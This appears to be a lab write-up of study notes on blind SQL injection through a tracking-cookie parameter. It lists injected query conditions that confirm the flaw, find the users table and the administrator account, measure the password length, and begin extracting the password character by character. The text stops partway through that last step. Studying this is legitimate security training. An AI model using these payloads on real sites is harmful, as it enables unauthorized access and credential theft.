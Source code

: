 #Lab 11 - Blind SQL injection with condition response

## Vulnerable parameter - tracking cookie

End Goals: 
1) Enumerate the password of the administrator
2) Login as the admininstrator

Analysis:
----------

1) Confirm that the paramter is vulnerable to the blind SQLi

select tracking-id from tracking-table where trackingId = '<trackingId>'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back msg



select tracking-id from tracking-table where trackingId = '<trackingId>' and 1=1--'
	-> TRUE -> Welcome back


select tracking-id from tracking-table where trackingId = '<trackingId>' and 1=0--'
	-> FALSE -> no Welcome back	

2) Confirm that we have a users table

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select 'x' from users LIMIT 1)='x'--' 
	-> TRUE -> Welcome back	-> users table exists in the database.

3) Confirm that username admininstrator exist users table

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select username from users where username='administrator')='administrator'--' 
	-> TRUE -> Welcome back	-> administrator username exists in the database.	

4) Enumerate the password of the administrator user

select tracking-id from tracking-table where trackingId = '<trackingId>' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--' 	
	-> password is exactly 20 characters



select tracking-id from tracking-table where trackingId = '<trackingId>' and (select substring(password,1,1) from users where username='administrator')='a'--' 